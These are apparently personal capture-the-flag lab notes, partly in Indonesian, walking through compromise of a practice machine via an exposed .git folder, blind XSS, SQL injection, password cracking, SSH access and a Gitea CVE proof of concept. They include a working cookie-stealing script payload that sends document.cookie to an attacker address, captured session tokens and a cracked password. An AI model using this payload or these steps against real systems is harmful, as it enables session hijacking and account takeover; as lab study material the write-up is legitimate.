 # 1. Open Port
## TCP
![[Pasted image 20250202132521.png]]
![[Pasted image 20250202141804.png]]
## UDP
![[Pasted image 20250202141553.png]]
# 2. Web
register
form register using GET method
![[Pasted image 20250202134026.png]]
login
![[Pasted image 20250202134132.png]]
vote -> can not click
![[Pasted image 20250202134402.png]]
ada fitur upload
![[Pasted image 20250203144311.png]]
## Directory
![[Pasted image 20250202135422.png]]
ada .git
## Subdomain
![[Pasted image 20250202202655.png]]

# 3. Git
extract git folder
![[Pasted image 20250202141344.png]]
![[Pasted image 20250202141417.png]]
## review file php
ada cat.db
![[Pasted image 20250202141926.png]]
axel as admin
![[Pasted image 20250202142050.png]]
tables users
![[Pasted image 20250202142836.png]]
tables cat
![[Pasted image 20250202143048.png]]
file gambar beda2
![[Pasted image 20250202143229.png]]
## folder /.git
![[Pasted image 20250202143339.png]]
axel email -> axel2017@gmail.com
![[Pasted image 20250202144223.png]]
git status
![[Pasted image 20250202181606.png]]
git log oneline all
![[Pasted image 20250202181902.png]]
# 4. Blind XSS
there is no sanitation in username parameter in registration
![[Pasted image 20250204092317.png]]

```
<script>document.location='http://10.10.14.19:8888/?c='+document.cookie;</script>
```
![[Pasted image 20250203214646.png]]
![[Pasted image 20250203214724.png]]
![[Pasted image 20250203214758.png]]
![[Pasted image 20250204053500.png]]
```
rrrbeq451gv5pfag2mn2edi718
fgh50bpdee5mucu3h3dvnb1u3h
96qh6v2cnrl449bue71ebrju0a
8bd6oc7dtapa1hd30ja6n04sac
```
![[Pasted image 20250204102017.png]]
# 5. SQL injection
input tidak disanitasi
![[Pasted image 20250204102534.png]]
![[Pasted image 20250204102509.png]]
![[Pasted image 20250204105953.png]]
web menggunakan sqlite
![[Pasted image 20250204111736.png]]
cara curang sebenerny huhuhu
![[Pasted image 20250204135815.png]]
detek hash
![[Pasted image 20250204140133.png]]
![[Pasted image 20250204143513.png]]
password axel gabisa di crack
coba akun lain -> rose
bisa dicrack. -> soyunaprincesarosa
![[Pasted image 20250204152957.png]]
# 6. SSH user rosa
berhasil ssh rosa, tapi tidak ada user flag
![[Pasted image 20250204153315.png]]
cek local port
![[Pasted image 20250205100101.png]]
port 3000
![[Pasted image 20250205100149.png]]
![[Pasted image 20250205100246.png]]
ada CVE di gitea, tapi harus login dahulu
tidak ada default password
![[Pasted image 20250205101916.png]]
cek port lain
ada SMTP
![[Pasted image 20250205200320.png]]
coba cek log web server, soalnya login web appnya pake method GET
![[Pasted image 20250205205851.png]]
dapat user password axel
![[Pasted image 20250205210155.png]]
# 7. Priviledge Escalation
![[Pasted image 20250205211452.png]]
coba buka /var/email/axel ada info email
![[Pasted image 20250205212232.png]]
coba akses url yang di mention axel -> tidak bisa
![[Pasted image 20250206094630.png]]
coba login dengan password axel pada gitea -> berhasil
![[Pasted image 20250205212143.png]]
coba PoC CVE gitea
https://github.com/MindPatch/latestpocs/tree/master/CVE-2024-6886
![[Pasted image 20250206092951.png]]
berhasil 

coba kita kirimkan email kepada jobert untuk membuka repo kita, dan xss kita bermaksud untuk memfexth halaman url gitea yang tidak bisa kita buka itu
![[Pasted image 20250206095529.png]]
![[Pasted image 20250206095652.png]]
dapat 
![[Pasted image 20250206161012.png]]
decode
![[Pasted image 20250207092048.png]]
Login su dengan passwordnya
![[Pasted image 20250207092238.png]]
